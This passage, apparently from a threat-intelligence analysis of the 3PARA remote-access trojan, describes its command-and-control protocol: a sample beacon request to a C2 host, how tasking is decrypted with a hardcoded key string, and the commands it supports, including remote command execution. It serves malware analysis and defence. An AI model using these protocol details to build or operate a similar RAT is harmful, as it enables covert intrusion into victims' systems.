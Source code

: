 |  |  |  | containing previously used stack frames. |

If this request is also successful, the RAT will attempt to retrieve tasking from the controller using a further distinctive HTTP request shown in Figure 13, repeating this request every two seconds until valid tasking is returned.

```
GET /microsoftupdate/getupdate/default.aspx?ID=18467para1=-2117070676para2=-
1214246830para3=41 HTTP/1.1
Accept: * /*
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: nsc.adomhn.com
Connection: Keep-Alive
Where:
ID=18467
                        A random number.
para1=-2117070676 =
                        Host ip address represented as a decimal number
                        (in hex 0x81d010ac = 172.16.208.129)
                        Decimal value of the concatenation of the WORD length
para2=-1214246830 =
                        victim ID value (a0 b7 as above) along with random
                        WORD value (52 10 in this case) - i.e. OxB7A01052
                  =
para3=41
                        Random number.
```
Figure 13. 3PARA RAT Sample Tasking Request

![](_page_32_Picture_0.jpeg)

![](_page_32_Picture_2.jpeg)

Returned tasking is decrypted using the DES algorithm in CBC mode with a key derived from the MD5 hash of the string HYF54&%9&jkMCXuiS (as used in the secondary beacon shown above). If this fails, the RAT will fall back to decoding the data using an 8-byte XOR with a key derived from data returned from the HashData API with the same key string. Output data produced by tasking instructions is encrypted in the same manner as it was decrypted and sent back to the C2 server via HTTP POST request to a URI of the form /microsoft/errorpost/ default.aspx?ID=, where the ID value is a random number in decimal representation - as with the initial request shown in Figure 4.

The set of commands supported by the RAT is somewhat limited, indicating that perhaps the RAT is intended to be used as a second-stage tool, or as a failsafe means for the attackers to regain basic access to a compromised system (which is consistent with its support for sleeping until a certain date/fime). Some of the supported commands are implemented using C++ classes derived from a base CCommand class:

- CCommandAttribe Retrieve metadata for files on disk, or set certain attributes such as creation/ modification timestamps.
- CCommandCD Change the working directory for the current C2 session.
- CCommandCMD Execute a command, with standard input/output/error redirected over the C2 channel.
- CCommandNOP List the current working directory.
